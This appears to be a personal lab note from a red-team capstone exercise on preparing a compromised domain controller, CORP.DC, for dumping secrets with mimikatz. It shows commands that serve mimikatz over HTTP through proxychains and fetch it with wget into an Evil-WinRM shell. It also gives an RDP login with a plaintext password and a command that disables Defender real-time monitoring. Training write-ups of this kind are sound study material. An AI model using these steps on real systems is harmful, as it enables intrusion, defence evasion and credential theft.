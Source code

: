 
[[Dumping secrets from CORPDC#Connect to RDP with the Administrator's credentials|Connect to CORP.DC with Administration credentials]]

NOTE: If you can't connect , go to [[Dumping secrets from CORPDC]]

## Download mimikatz

### Enable http.server using python and proxychains on the Attacking machine


~/…/red_team_recon/Capstone_Challenge/Capstone_Challenge_Resources/Tools/mimikatz_trunk/x64$  `proxychains -q python3 -m http.server`

### Get mimikatz
On the tools provided on Capstone challenge folder you can find mimikatz.
Run on the Evil-WinRM shell the following command.

Evil-WinRM* PS C:\Users\Administrator> `wget http://10.50.110.16:8000/mimikatz.exe -o mimikatz.exe`

#### Connect to RDP with the Administrator's credentials

$ `proxychains4 -q xfreerdp /v:10.200.113.102 /u:Administrator /p:Hacker@123` 


## Disable CORP.DC firewall

Disabled firewall.

PS C:\Users\Administrator> `Set-MpPreference -DisableRealTimeMonitoring $true`

![[Preparing the path-20240607144158824.webp]]
## Disable virus protection

Disable virus and turned off Real-time protection from settings.
- **Open Windows Security:**
    
    - Click on the **Start** button.
    - Type **Windows Security** in the search bar and press Enter.
    - Alternatively, you can also find it by navigating through **Settings > Update & Security > Windows Security**.
    - ![[Preparing the path-20240607143234384.webp]]

